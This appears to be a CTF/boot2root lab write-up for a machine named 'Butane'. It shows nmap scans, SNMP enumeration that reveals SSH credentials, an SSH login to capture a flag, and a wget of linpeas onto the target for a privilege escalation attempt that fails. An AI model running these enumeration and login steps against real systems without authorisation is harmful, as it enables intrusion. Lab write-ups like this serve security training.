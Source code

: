 # - Butane

Here is a challenge on Butane, Boot2Root machine.

## Reconnaissance

`IP = 192.168.8.131`

First and foremost, doing nmap scan to gather information of the machine. We get this

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# nmap -p- --min-rate 10000 192.168.8.131 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 03:36 EDT
Nmap scan report for butane.netbytesec.com (192.168.8.131)
Host is up (0.0011s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

There is only one service running. I thought that the machine is not running correctly haha. So just relax... 

After a while, there is a hint said that "Why not trying the UDP". So bump into nmap UDP scan. It took some time, so we give `-vv` to make it more aggressive. 

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# nmap -sU -T4 -vv 192.168.8.131
```

Output

```js
Scanned at 2023-10-27 00:17:08 EDT for 1579s
Not shown: 999 open|filtered udp ports (no-response)
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 128

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1578.88 seconds
           Raw packets sent: 2279 (106.097KB) | Rcvd: 2 (181B)
```

## Enumeration

It is snmp service running on this machine. So we go thru the SNMP hacktricks [https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# snmpwalk -v 2c -c public 192.168.8.131 .1 > output.txt
```

We will be using this command to enumerate and get the machine information. We get this and there is credentials of `mike:P@55w0Rd` to log in into the SSH and the first flag.

![](/images/writeup/internship/butane/cred.PNG)

## Exploitation

We go into the SSH. Directly we got the second flag

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/butane]
└─# ssh mike@192.168.8.131                
mike@192.168.8.131's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

279 packages can be updated.
197 updates are security updates.

New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Fri Oct 27 12:46:19 2023 from 192.168.22.12
mike@butane:~$ ls
flag2.txt
mike@butane:~$ cat flag2.txt
flag{37503d2ac009c25f88f86a4961be83d0944afcd6}
```


### Privesc

To get the root I try to look on the `linpeas` and directly install into the machine because there is `wget`

```js
mike@butane:/tmp$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

After a few testing of privesc OS and Linux kernel. It was mission failed because there is no `gcc` install

```js
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.2 LTS
Release:	16.04
Codename:	xenial

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.16
```

After trying some exploit on the public, we cannot get thru anything

